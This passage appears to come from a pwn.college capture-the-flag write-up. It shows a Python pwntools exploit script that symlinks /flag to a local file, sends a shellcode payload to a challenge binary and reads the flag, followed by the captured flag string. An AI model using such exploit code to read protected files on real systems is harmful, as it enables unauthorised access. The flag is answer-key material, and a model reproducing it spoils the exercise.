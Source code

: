 ```python

    return shellcode


def attack(target, payload):
    try:
        os.system("ln -s /flag f")

        payload_size = f"{len(payload)}".encode()
        target.sendlineafter(b"Payload size: ", payload_size)

        target.recvuntil(b"Send your payload")
        send_payload(target, payload)
        response = target.recvall(timeout=5)
        log.debug(response.decode("utf-8", errors="ignore"))

        try:
            with open("./f", "r") as file:
                content = file.read()

                log.success(content)
                return True
        except FileNotFoundError:
            log.exception("The file './f' does not exist.")
        except PermissionError:
            log.failure("Permission denied to read './f'.")
        except Exception as e:
            log.exception(f"An error occurred while performing attack: {e}")
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    try:
        target = launch()
        payload = construct_payload(target)

        attack(target, payload)
    except Exception as e:
        log.exception(f"An error occurred in main: {e}")


if __name__ == "__main__":
    main()
```

## Flag

Flag: `pwn.college{UiJc7-6JI988NELrbF-uNpbwc-X.0lNyMDL5cTNxgzW}`

# Level 5.0
